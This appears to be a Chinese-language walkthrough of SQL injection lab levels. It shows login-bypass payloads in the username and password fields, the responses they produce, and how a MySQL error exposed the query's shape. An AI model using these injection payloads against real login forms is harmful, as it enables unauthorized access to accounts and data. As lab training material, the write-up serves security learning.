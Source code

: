 需要输入用户名和密码的注入方式。

在用户名处注入

```
username: admin' or '1'='1
password: 123
```

得到反馈是

Your Login name:admin
Your Password:admin

在密码处注入

```
username: 123
password: 213' or '1'='1
```

得到反馈是

Your Login name:Dumb
Your Password:Dumb

在密码处注入成功的话，返回的是数据库的第一个用户

接下来利用会报错这点进行盲注即可

## 0x12

尝试注入点

```
username: 123'
password: 1234'
```

无反馈

尝试注入点

```
username: 123"
password: 1234"
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '1234"") LIMIT 0,1' at line 1
```

可知sql语句大概为这样的形式

```
"select username,password from table where username=("username") and password = ("password") LIMIT 0,1"
```

则注入点为

```
username: 123
password: 1") or ("1"="1
```
